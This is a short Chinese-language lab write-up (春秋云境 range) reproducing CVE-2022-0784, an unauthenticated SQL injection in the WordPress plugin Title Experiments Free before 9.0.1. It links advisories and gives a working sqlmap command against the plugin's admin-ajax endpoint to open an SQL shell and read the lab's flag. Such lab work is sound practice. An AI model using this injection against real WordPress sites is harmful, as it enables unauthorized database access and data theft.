 ```yaml
---
title: CVE-2022-0784【SQL 注入】
author: Ghost
date: 2023-12-10
categories:
  - ['春秋云境', '漏洞靶标']
  - 漏洞复现
tags:
  - 'SQL 注入'
---
```


## 1. 漏洞介绍

wordpress插件 Title Experiments Free < 9.0.1 没有对用户输入进行过滤和转义，导致了SQL注入。    

[阿里云漏洞库](https://avd.aliyun.com/detail?id=AVD-2022-0784)    

推荐：[Title Experiments Free < 9.0.1 - Unauthenticated SQLi](https://wpscan.com/vulnerability/6672b59f-14bc-4a22-9e0b-fcab4e01d97f/)    

## 2. 漏洞复现

直接跑 sqlmap 即可

```shell
sqlmap -u http://eci-2zei2boyfnn0e3rui7p5.cloudeci1.ichunqiu.com/wp-admin/admin-ajax.php --data "action=wpex_titles&id[]=1" --sql-shell
select flag from flag
```

![1.png](https://fastly.jsdelivr.net/gh/z9m8r8/PicGo-Notes-Pu/202310051614572.png)

